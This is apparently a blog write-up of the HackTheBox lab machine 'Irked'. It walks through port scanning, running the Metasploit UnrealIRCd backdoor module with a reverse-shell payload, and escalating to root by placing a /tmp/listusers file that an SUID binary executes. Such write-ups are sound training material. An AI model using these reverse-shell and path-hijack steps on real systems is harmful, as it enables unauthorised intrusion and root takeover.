 ```yaml
---
title: "HackTheBox - Irked"
author: Nasrallah
description: ""
date: 2023-02-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, suid, metasploit]
img_path: /assets/img/hackthebox/machines/irked
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

![](0.png)

### **Description**

Hello hackers, I hope you are doing well. We are doing [Irked](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: scan all ports


```terminal
Nmap scan report for 10.10.10.117                                                                                                                             
Host is up (0.15s latency).                                                                                                                                   
                                                                                                                                                              
PORT      STATE SERVICE VERSION                                                                                                                               
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)                                                                                          
| ssh-hostkey:                                                                                                                                                
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)                                                                                                               
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)                                                                                                               
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)                                                                                                              
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)                                                                                                            
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))                                                                                                        
|_http-server-header: Apache/2.4.10 (Debian)                                                                                                                  
|_http-title: Site doesn't have a title (text/html).                                                                                                          
111/tcp   open  rpcbind 2-4 (RPC #100000)                                                                                                                     
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service                                                                                                                    
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                    
|   100000  2,3,4        111/udp   rpcbind                                                                                                                    
|   100000  3,4          111/tcp6  rpcbind                                                                                                                    
|   100000  3,4          111/udp6  rpcbind                                                                                                                    
|   100024  1          37467/tcp   status                                                                                                                     
|   100024  1          46655/udp6  status                                                                                                                     
|   100024  1          57678/tcp6  status                                                                                                                     
|_  100024  1          59290/udp   status                                                                                                                     
8067/tcp  open  irc     UnrealIRCd                                                                                                                            
65534/tcp open  irc     UnrealIRCd                                                                                                                            
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

We found a couple of open ports, 22/tcp running OpenSSH, 80/tcp running an Apache http web server, 111/tcp is rpcbind, and the last two are running `UnrealIRCd`.

## Web

Let's check the web page.

![](1.png)

We see an image and a note talking about `IRC`, probably a hint telling us where to look.

## Searchsploit

Let's see if `unrealircd` has any vulnerabilities.

```terminal
└──╼ $ searchsploit unrealircd
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                   | windows/dos/27407.pl
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a backdoor command execution exploit in Metasploit.

## **Foothold**

Let's start `msfconsole` and use `exploit/unix/irc/unreal_ircd_3281_backdoor`.

Let's set up the following options.

```terminal
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rhosts 10.10.10.117
rhosts => 10.10.10.117
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rport 8067
rport => 8067
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set payload cmd/unix/reverse
payload => cmd/unix/reverse
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set lhost tun0
lhost => tun0
```

Now let's run the exploit.

![](2.png)

Great, we got a shell.


## **Privilege Escalation**

Before starting enumeration, i uploaded my ssh public key to the target and sshed to it.

Next i run linpeas and got the following.

![](3.png)

We found an unknown suid binary called `viewuser`, let's see what it does.

```terminal
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
sh: 1: /tmp/listusers: not found
```

The binary is trying to execute /tmp/listusers but the file is note there.

We can exploit that by creating `listusers` file that executes `/bin/bash`.

```terminal
ircd@irked:~$ echo '/bin/bash' > /tmp/listusers
ircd@irked:~$ chmod +x /tmp/listusers
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
root@irked:~# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
root@irked:~#
```

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
